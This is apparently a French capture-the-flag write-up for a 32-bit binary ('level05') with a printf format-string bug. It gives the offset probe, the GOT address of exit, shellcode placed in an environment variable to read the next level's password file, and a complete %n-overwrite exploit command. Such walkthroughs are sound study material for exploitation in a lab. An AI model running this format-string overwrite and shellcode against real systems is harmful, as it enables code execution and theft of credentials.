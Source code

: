 # Level 05
<a href="/level06"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

- Il y a une vulnerabilité dans le code source le printf a une variable en tant que format
- On commence donc par reperer le offset pour ecrire sur une addresse
```
$> python -c "import struct; print('AAAABBBB' + '%x ' * 11)" | ./level05
aaaabbbb64 f7f39580 1 0 1 f7f99980 ffffffff 1 0 61616161 62626262
```
- Pour executer notre shellcode il faut ecrire par dessus l'adresse de la fonction pour que ca redirige vers notre shellcode
<pre>
$> objdump -R ./level05 

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497dc R_386_JUMP_SLOT   \__gmon_start_\_
<strong>080497e0 R_386_JUMP_SLOT   exit</strong>
080497e4 R_386_JUMP_SLOT   \__libc_start_main
</pre>
- Le retour du fgets est modifier pour nous empecher d'y ecrire un shellcode
- La meilleur solution est donc d'ecrire le shellcode dans le env
- On recupere donc l'addresse de la variable SHELLCODE
<pre>
$> env -i SHELLCODE="$SHELLCODE" SHELL=/bin/bash gdb ./level05
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) x/1s \*\*(char\*\*\*)&environ
0xffffdf77:      "SHELLCODE=jsh.pashl06/hlevehers/he/ush/hom\211\343\061\311\061\322j\005X\315\200j\001[\211\301\061\322h\377\377\377\177^1\300\260\273\315\200"
(gdb) x 0xffffdf77 + 10
<strong>0xffffdf81:      "jsh.pashl06/hlevehers/he/ush/hom\211\343\061\311\061\322j\005X\315\200j\001[\211\301\061\322h\377\377\377\177^1\300\260\273\315\200"</strong>
</pre>
- Apres avoir assemblé tout cela donne cette commande
```
(python -c "import struct; print('AAAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e2) + '%57205d' + '%11\$n' + '%8318d' + '%12\$n')") | env -i SHELLCODE="$(python -c "print('\x90' * 20 + 'jsh.pashl06/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80')")" SHELL=/bin/bash ./level05
```
